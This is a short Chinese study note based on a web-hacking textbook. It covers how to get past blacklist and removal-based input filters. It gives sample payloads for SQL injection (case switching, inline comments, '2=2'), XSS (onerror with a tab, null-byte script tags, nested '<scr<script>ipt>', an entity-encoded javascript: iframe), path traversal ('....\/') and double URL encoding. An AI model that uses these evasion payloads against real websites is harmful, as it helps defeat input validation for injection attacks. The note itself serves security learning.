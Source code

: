 ## WEB攻防（一）基础

本文为阅读 [《黑客攻防技术宝典：Web实战篇（第2版）》](https://www.ituring.com.cn/book/885) 的笔记

## 黑名单过滤

根据已知的字符串确认数据，排除在黑名单之上的数据。

### 大小写切换攻击

`SELECT` 可以尝试 `SeleCt`

### 数字更改

`or 1=1--` 可以尝试 `or 2=2--`

### 同类函数更换

`alert('xss')` 可以尝试 `prompt('xss')`

### sql 注释

```sql
select/*foo*/username,password/*foo*/from/*foo*/users
```

### 非标准字符

```html
<img%09onerror=alert(1) src=a>
```

### 空字节攻击

在表达式之前插入空字节

```html
%00<script>alert(1)</script>
```

## 删除表达式

通过删除特定表达式，过滤内容

删除 `<script>` 可以尝试 `<scr<script>ipt>`

### 递归删除

1. 删除 `../`
2. 删除 `..\`

可以尝试 `....\/`

### URI 编码

删除省略号 

可以尝试 `%2527`

或 `%%2727`

### HTML 编码

```html
<iframe src=j&#x61;vasc&#x72;ipt&#x3a;alert&#x28;1&#x29; >

```


